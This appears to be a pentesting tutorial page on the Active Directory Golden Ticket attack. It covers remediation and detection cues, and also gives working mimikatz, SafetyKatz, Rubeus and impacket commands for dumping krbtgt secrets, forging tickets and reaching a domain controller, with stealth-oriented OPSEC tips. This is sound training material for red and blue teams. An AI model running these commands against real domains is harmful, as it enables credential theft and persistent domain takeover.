

# Golden Ticket

Golden Tickets are **forged TGTs** created using the NTLM hash or AES keys of the `krbtgt` account, an account responsible for signing all TGTs in an AD domain. With this secret, attackers can generate valid TGTs for any user, including DAs, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide **domain-wide access and persistence**.


The `krbtgt` account is disabled by default and it doesn’t have any interesting rights for better protection.


This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the DC after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after DA credentials rotate.

<figure><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

To remediate a Golden Ticket attack, the password of the `krbtgt` account must be changed twice. The KDC maintains two password hashes for `krbtgt`: the current hash and the previous one. This design ensures that authentication does not fail for tickets issued shortly before a password change.

A Golden Ticket remains valid as long as it is signed with either of these hashes. Therefore:

* **First password change:** previously forged tickets may still be accepted because the earlier hash is still stored as the “previous” password.
* **Second password change:** both hashes are replaced, which invalidates all existing forged tickets.

After the first reset, sufficient time must be allowed for full replication across the entire domain or forest before performing the second reset. In many environments this convergence occurs within several hours, but organisations often wait up to 24 hours to ensure consistency. During this window, an attacker who still has privileged access may be able to compromise the environment again and obtain the updated hash.

The Golden Ticket attack is often used by red teamers and penetration testers to demonstrate the potential impact of a domain compromise. This is commonly achieved by forging a ticket for a non‑existent user, which highlights the level of persistence and control an attacker could maintain within the domain.

## OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the KDC as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

In addition, standard Windows event logs cannot reliably distinguish between a legitimate TGT and a forged one, making detection challenging. Furthermore, resetting the password of the impersonated account does not invalidate a Golden Ticket, as it is signed with the `krbtgt` account key rather than the user’s credentials.

Tools such as `mimikatz` generate Golden Tickets with a default lifetime of ten years, which may serve as a potential IoC. In comparison, legitimate Kerberos TGTs typically have a lifetime of approximately ten hours and can be renewed without re-authentication for up to seven days.

Detection may also be possible by examining inconsistencies in the ticket’s domain field. Normally, the `DOMAIN` field stored in the PAC contains the NetBIOS domain name (for example, `MARVEL`). If the field is left blank or contains the FQDN, such as `MARVEL.LOCAL`, instead of the NetBIOS name, this may indicate improper ticket crafting. Careful inspection of how the ticket was generated and how the tool populates these fields is therefore essential.

## Windows

Create a session in the context of the compromised DA.


```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```


Next, there are two common ways to extract `krbtgt` credentials.


**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash without touching the DC. The local dump method extracts just the NTLM hash and executes code on the DC.



```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution on the DC)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```


Previous tickets can be purged before executing the Golden Ticket attack.


```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```


[Rubeus](../ad-tools/rubeus.md) can be used to generate the Golden Ticket-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain


**OPSEC**:&#x20;

* Target an active DA account, not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.



```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd

# Golden ticket attack with Rubeus
C:\AD\Tools\Rubeus.exe golden /aes256:<aes256key> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt

# Golden ticket attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```


## Linux


```bash
# DNS!
$ cat /etc/hosts
10.10.10.1 dc01.marvel.local marvel.local

# Get the SID of the domain
impacket-lookupsid marvel.local/x7331@dc01.marvel.local -domain-sids

# Forge a Golden ticket
impacket-ticketer -nthash 810d754e118439bab1e1d13216150299 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain marvel.local Administrator

# Export the ticket
export KRB5CCNAME=./Administrator.ccache

# Access the target
psexec.py -k -no-pass dc01.marvel.local
```

